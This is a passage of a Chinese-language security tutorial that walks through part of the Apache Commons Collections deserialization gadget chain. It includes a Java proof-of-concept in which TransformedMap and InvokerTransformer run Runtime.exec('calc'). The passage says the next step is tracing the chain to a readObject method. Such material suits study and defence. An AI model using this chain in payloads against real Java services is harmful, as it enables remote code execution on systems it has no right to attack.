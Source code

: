 
TramformedMap 继承自 AbstractInputCheckedMapDecorator ，AbstractInputCheckedMapDecorator 继承自 AbstractMapDecorator，而 AbstractMapDecorator 实现了 Map.Entry 接口，并且 AbstractInputCheckedMapDecorator.MapEntry 重写了 setValue 方法。



也就是说我们可以获取 TramformedMap 的 entry，然后调用 setValue 方法。进而触发后面的利用链。



流程如下：



- 创建 TramformedMap 对象。
- 以 entry 的形式遍历该对象。

- 调用 setValue 方法。该方法传入 value ，然后调用 TramformedMap.checkSetValue 方法。
- TramformedMap.checkSetValue 方法调用 valueTransformer.transform(value); 这里的 valueTransformer 就是我们在 decorate 时传入的 invokerTransformer。

- 由于目标是调用 invokerTransformer.transform(Runtime.getRuntime())。因此 setValue 时需要传入 Runtime.getRuntime()。



于是我们可以编写如下代码，观察是否能够成功弹出计算器。



```java
    public static void TestInvokerTransformer() throws Exception{
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<String,String> map = new HashMap<>();
        map.put("key","value");

        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,invokerTransformer);

        for (Map.Entry<Object,Object> entry: transformedMap.entrySet()){
            entry.setValue(Runtime.getRuntime());
        }
    }
```



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747024162-04074958-3ab8-4eb2-b9d3-2aef410541fa.png)



至此，利用链如下：



![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1639747029000-bfe582df-c388-4812-8a4d-c395b9bdbec8.png)



到这一步我们可以继续寻找 chain，如果有一个以 Entry 形式遍历 Map 的地方，并且调用了 setValue 方法。那么就可以调用这一条链。当然，最终我们的目标是溯源到某个类的 readObject 方法中。


